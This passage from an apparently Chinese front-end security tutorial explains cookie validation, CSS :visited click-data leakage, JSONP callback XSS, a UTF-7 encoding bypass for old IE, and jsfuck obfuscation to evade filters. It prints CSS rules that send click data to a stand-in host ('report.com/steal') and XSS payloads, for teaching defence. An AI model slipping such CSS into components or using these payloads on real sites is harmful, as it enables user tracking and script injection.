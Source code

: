 1. 敏感信息还是不要放 Cookie 里，即使是内存 Cookie；
2. 服务器要做 Cookie 的三个维度的校验 - 唯一性（是否验证通过）、完整性（是否被篡改了）、是否过期。

### 六、CSS 带来的点击量泄露

在我们的印象中，前端安全基本是 js 带来的问题，但 css 也会有安全隐患吗？是的。除去 IE 下的 css 中执行 js 代码问题，还有另外一个关注点。  
假如有一个开源组件，我们只看了下 js 源码，觉得没有漏洞风险，就直接拿过来使用了。况且，没有前端人员乐于去读别人的 css 的…但有某种极端的情况，css 带来了意想不到的数据泄露。  
试想这是一个`导航栏组件`，html 代码是这样的：

```
<a href="http://yousite.com/a1" id="a1">nav1</a>
<a href="http://yousite.com/a2" id="a2">nav2</a>
<a href="http://yousite.com/a3" id="a3">nav3</a>
```

你忽略掉的 css 写成这样：

```
#a1:visited {background: url(http://report.com/steal?data=a1);}
#a2:visited {background: url(http://report.com/steal?data=a2);}
#a3:visited {background: url(http://report.com/steal?data=a3);}
```

我们用到业务里，用户点击这三个导航后，a 标签的 visited 伪属性生效，就会设置 background，而背景的 url 其实是上报地址。这时候，你的业务的`点击数据量`就暴露给第三方了！  
当然，这只针对旧版本浏览器，新版本浏览器都已 fix 这个问题。可是，HTML5 的出现又让这个问题回归了…  
HTML5 提供伪类`::selection`，当指定对象区域被选择时，就会触发。其原理跟上面类似。

### 七、JSONP 回调函数与 UTF-7 编码

#### 7.1) 基本原理

在 JSONP 技术中，服务器通常会让请求方在请求参数中提供 callback 函数名，而不是由数据提供方定制，如请求方发起请求：  
`cgi-bin/get_jsonp?id=123&call_back=some_function`  
返回数据格式为：  
`some_function([{'id':123, data:'some_data'}]);`  
如果，数据提供方没有对 callback 函数名做安全过滤，就会带来 XSS 问题。  
请求：  
`cgi-bin/get_jsonp?id=123&call_back=<script>alert(1);</script>`
返回：  
`<script>alert(1);</script>([{'id':123, data:'some_data'}]);`  
所以，一般服务器都会对 call_back 参数进行过滤，但过滤的方法是否会存在漏洞呢？

#### 7.2) IE 解析 UTF-7 漏洞

比较简单的过滤方法，是过滤`<>`字符，使得无法构成 html 标签。但在 IE6\IE7 的某些版本中，存在以下漏洞：**如果发现文件前面是“+/v8”开头，就把文件当做 UTF-7 解析**（IE7 后续版本已发布补丁修复）。  
在没被修复的 IE 版本中，如果我们将上面的请求用 utf-7 编码。再在前面加上"+/v8"头：  
`cgi-bin/get_jsonp?id=123&callback=%2B%2Fv8%20%2BADw-script%2BAD4-alert(1)%2BADw-%2Fscript%2BAD4`  
这时候巧妙的躲开了`<>`过滤，而返回：  
`+/v8 +ADw-script+AD4-alert(1)+ADw-/script+AD4({‘id’=>123,data=>’some_data’});`  
这时 IE 将这个 jsonp 文件当作 utf-7 解析，依然触发 XSS。

### 八、过滤与代码混淆

过滤器如果过滤了大部分的 js 函数，如 eval、alert 之类，是否就能保证安全呢？必然不是，我们还有强大的 js 代码混淆手段，可以绕过过滤器。这里推荐一个神奇的网站：[jsfuck](http://utf-8.jp/public/jsfuck.html)。  
站名如其名，满满的恶意…它可以仅仅用 6 个字符：`[]()!+`去混淆编码 js。而且兼容性特别的完善。以下是我在最新 chrome 下的截图，将一句`alert(1)`编码成了 3009 个字符，并执行成功：  
![Alt text](/assets/blogImg/safety_004.jpg)  
所以过滤器仅仅通过适配关键函数名，是不能保证安全性的。

